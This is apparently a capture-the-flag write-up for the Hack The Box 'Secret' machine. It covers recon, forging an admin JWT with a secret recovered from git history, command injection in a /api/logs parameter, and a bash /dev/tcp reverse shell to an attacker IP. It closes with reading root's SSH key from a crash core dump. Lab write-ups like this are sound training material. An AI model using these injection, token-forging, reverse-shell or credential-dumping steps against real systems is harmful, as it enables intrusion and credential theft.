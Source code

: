 # [Secret](https://app.hackthebox.com/machines/Secret)

```bash
nmap -p- --min-rate 10000 10.10.11.120 -Pn
```

![alt text](img/image.png)

After detection of open ports, let's do greater nmap scan here.

```bash
nmap -A -sC -sV -p22,80 10.10.11.120 -Pn 
```

![alt text](img/image-1.png)

Our web application is like below.

![alt text](img/image-2.png)

Let's do `Directory Enumeration` for this web application.

```bash
gobuster dir -u http://10.10.11.120/ -w /usr/share/seclists/Discovery/Web-Content/raft-small-words-lowercase.txt -t 40
```

![alt text](img/image-3.png)


Let's create account via `API` by sending request to `/api/user/register`
```bash
curl -d '{"name":"dr4ks123","email":"dr4ks123@secret.com","password":"password"}' -X POST http://10.10.11.120/api/user/register -H 'Content-Type: application/json'
```

![alt text](img/image-4.png)


After successful registration, we can make authentication by sending request to `/api/user/login`.

```bash
curl -d '{"email":"dr4ks123@secret.com","password":"password"}' -X POST http://10.10.11.120/api/user/login -H 'Content-Type: application/json'
```

![alt text](img/image-5.png)


I can see my `JWT` token already.


Via sending request to `/api/priv` , we can see privileges of our user.
```bash
curl -s 'http://10.10.11.120/api/priv' -H "auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2NWQwOGM0ODUwNGZmMDA0NWI4N2YyOTMiLCJuYW1lIjoiZHI0a3MxMjMiLCJlbWFpbCI6ImRyNGtzMTIzQHNlY3JldC5jb20iLCJpYXQiOjE3MDgxNjY1NTZ9.SEZ5ohQHoWDKwhZsEQjGmA1nKl0rp2xlzMHpwuTXTEc" 
```

![alt text](img/image-6.png)


As you see, my user is not `admin` user.


While I try to use [JWT Decoder](https://jwt.io/), I can see my `payload` data from this `JWT` token.

![alt text](img/image-7.png)



Now, it's time to download `Source Code`.

![alt text](img/image-8.png)


I found `.git` directory here.

![alt text](img/image-9.png)


Let's look at `Git` history via `git log` command.
```bash
git log --name-only --oneline
```

![alt text](img/image-10.png)


From last commits, I see that there was `.env` file contains secret info, let's `commit` back via `git checkout` command.
```bash
git checkout de0a46b
```

![alt text](img/image-11.png)


Content of `.env` file is below.

![alt text](img/image-12.png)


Token=> gXr67TtoQL8TShUc8XYsK2HvsBYfyQSFCFZe4MQp7gRpFuMkKjcM72CNQN4fMfbZEKx4i7YiWuNAkmuTcdEriCMm9vPAYkhpwPTiuVwVhvwE


Let's decode via `Python's JWT` library.
```bash
import jwt
token=your_jwt_token
secret=you_get_this_from_.env
jwt.decode(token, secret, options={"verify_signature": False})
```

![alt text](img/image-13.png)


Let's do `Forge JWT` attack which means, as know `secret` value of `JWT` token, we can create ourselves `JWT` token.

```bash
j=jwt.decode(token, secret, algorithms=["HS256", "RS256"])
j['name']='theadmin'
jwt.encode(j,secret)
```

![alt text](img/image-14.png)


Let's check that we created `JWT Token` or not via sending request to `/api/priv` endpoint.
```bash
curl -s 'http://10.10.11.120/api/priv' -H "auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2NWQwOGM0ODUwNGZmMDA0NWI4N2YyOTMiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6ImRyNGtzMTIzQHNlY3JldC5jb20iLCJpYXQiOjE3MDgxNjc3MzB9.yhnx0CfdiEQux39ocTNc6PdX0SPufn0JO06wNeX4roU"
```

![alt text](img/image-15.png)


As we have `admin` user , we can do whatever we want.

While reading `Source Code` of application, I see that there can be `Command Injection`.

![alt text](img/image-16.png)


Let's fuzz `name` parameter via `ping` command execution by sending request.
```bash
curl -s 'http://10.10.11.120/api/logs?file=;ping+-c+1+10.10.14.2' -H "auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2NWQwOGM0ODUwNGZmMDA0NWI4N2YyOTMiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6ImRyNGtzMTIzQHNlY3JldC5jb20iLCJpYXQiOjE3MDgxNjc3MzB9.yhnx0CfdiEQux39ocTNc6PdX0SPufn0JO06wNeX4roU"
```

![alt text](img/image-17.png)



I can also inject command execution payloads into `file` parameter for `/api/logs` endpoint.
```bash
curl -s 'http://10.10.11.120/api/logs?file=;id' -H "auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2NWQwOGM0ODUwNGZmMDA0NWI4N2YyOTMiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6ImRyNGtzMTIzQHNlY3JldC5jb20iLCJpYXQiOjE3MDgxNjc3MzB9.yhnx0CfdiEQux39ocTNc6PdX0SPufn0JO06wNeX4roU" | jq -r .
```

![alt text](img/image-18.png)


As you see, we can see output of this request clearly, let's add reverse shell into here.
```bash
/dev/null;bash -c 'bash -i >& /dev/tcp/10.10.14.2/1337 0>&1'
```

Now, I send request as below and I need to add `--data-urlencode` option to make exploit work.
```bash
curl -s -G 'http://10.10.11.120/api/logs' --data-urlencode "file=>/dev/null;bash -c 'bash -i >& /dev/tcp/10.10.14.2/1337 0>&1'" -H "auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2NWQwOGM0ODUwNGZmMDA0NWI4N2YyOTMiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6ImRyNGtzMTIzQHNlY3JldC5jb20iLCJpYXQiOjE3MDgxNjc3MzB9.yhnx0CfdiEQux39ocTNc6PdX0SPufn0JO06wNeX4roU" | jq -r .
```


Hola, I got reverse shell from port `1337`.

![alt text](img/image-19.png)


Let's make interactive shell.
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo;fg
export TERM=xterm
export SHELL=bash
```

![alt text](img/image-20.png)


user.txt

![alt text](img/image-21.png)


I searched `SUID` files via below command.
```bash
find / -perm -u=s -type f 2>/dev/null
```

![alt text](img/image-22.png)


There I find `/opt/crash` binary and try to execute this.

After looking at source code means `code.c` , I find a path for hijacking.

![alt text](img/image-23.png)

It's like below.
```bash
#enter /root/.ssh/id_rsa
kill -SIGSEGV `ps -e | grep -w "count" |awk -F ' ' '{print$1}'`
fg
apport-unpack _opt_count.1000.crash /tmp/crash_unpacked
strings CoreDump
```

![alt text](img/image-24.png)


I find `private key` file called `id_rsa`.

![alt text](img/image-25.png)

Let's get this and give `chmod 600 id_rsa` privilege and join into machine.


root.txt

![alt text](img/image-26.png)